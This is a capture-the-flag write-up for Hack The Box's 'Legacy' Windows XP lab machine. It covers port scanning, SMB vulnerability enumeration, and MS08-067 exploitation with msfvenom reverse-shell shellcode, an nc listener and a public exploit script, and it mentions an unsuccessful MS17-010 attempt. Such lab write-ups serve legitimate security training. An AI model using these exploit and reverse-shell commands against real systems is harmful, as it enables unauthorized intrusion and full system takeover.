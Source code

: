 # Legacy 

**Links:** [1](https://www.hackthebox.com/machines/Legacy)  [2](https://app.hackthebox.com/machines/Legacy)

**Machine ip:** 10.10.10.4

## Reconnaissance
```
sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.4 -e tun0 > ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')

sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.4 --open

sudo nmap -Pn -n -sV -sC -sU -O -p$ports 10.10.10.4 --open
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/f9fb11ab-3893-4b05-9445-a3025431d537)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/56aa3613-f795-4f39-ae91-c937740f5ff4)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/3b75c385-baa0-4aae-b31d-fae7e20d48c1)


## Enumeration
```
ls -l /usr/share/nmap/scripts/smb* | grep vuln

nmap --script smb-vuln* -p 139,445 10.10.10.4
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a4ec1a7b-5542-4821-88b7-9220180785e1)


## Exploitation & Gaining Access & Privilege Escalation

### Method 1: [CVE-2008-4250 (ms08-067) / Conficker](https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#ms-08-067)
+ Download python exploit from **ms08-067: CVE-2008-4250** [1](https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py) [2](https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py)
+ Take this shellcode into the script, and replace it with the default.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.24 LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -v shellcode -a x86 --platform windows -o shellcode.txt

python ms08-067.py 10.10.10.4 6 445

nc -lnvp 4444

cd Documents and Settings\john\Desktop

type user.txt

cd C:\Documents and Settings\Administrator\Desktop

type root.txt

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/78dea999-1856-426b-afe3-69aad9bab9de)

+ Transfer **whoami.exe** from **/usr/share/windows-binaries/** using **smbserver.py** since XP doesn't have a whoami binary or command.
+ Check if get the NT AUTHORITY\SYSTEM level access.

```
smbserver.py win /usr/share/windows-binaries/

\\10.10.14.24\win\whoami.exe
```

+ Get both user and root flags.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/168b61ac-c71d-4f60-8568-a9e1223f669a)


### Method 2: [CVE-2017-0143 (ms17-010) / Shadow Brokers](https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#ms-17-010)
+ Try [1](https://github.com/helviojunior/MS17-010) [2](https://github.com/helviojunior/MS17-010/blob/master/send_and_execute.py)
+ The exploit didn't work on me due to the below impacket errors:
  + [no module named impacket](https://forum.hackthebox.com/t/impacket-module-not-found-but-installed/3561)
  + [package 'dsinternals' requires a different python 2.7.18 not in ' =3.4'](https://medium.com/@CustosClarus/thank-you-i-have-been-able-to-open-the-virtual-env-with-source-impacket-venv-bin-activate-d5945901ce0c)
+ Others [3](https://github.com/worawit/MS17-010)



# References & Alternatives
+ https://vvmlist.github.io/#legacy
+ https://0xdf.gitlab.io/2019/02/21/htb-legacy.html
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/legacy-writeup-w-o-metasploit
+ 


## CVE Scripting
+ **CVE-2008-4250 (ms08-067) / Conficker:**
  + https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py
  + https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py
+ **CVE-2017-0143 (ms17-010) / Shadow Brokers:**
  + https://github.com/helviojunior/MS17-010
    + https://github.com/helviojunior/MS17-010/blob/master/send_and_execute.py
  + https://github.com/worawit/MS17-010


## Tools
+ **windows-binaries:** /usr/share/windows-binaries
  + https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#beyond-root---whoami
+ **smbserver.py:** https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#beyond-root---whoami


## Technical Knowledge
+ x


## Problems Solution
+ [no module named impacket](https://forum.hackthebox.com/t/impacket-module-not-found-but-installed/3561)
+ [package 'dsinternals' requires a different python 2.7.18 not in ' =3.4'](https://medium.com/@CustosClarus/thank-you-i-have-been-able-to-open-the-virtual-env-with-source-impacket-venv-bin-activate-d5945901ce0c)


## For More
+ x
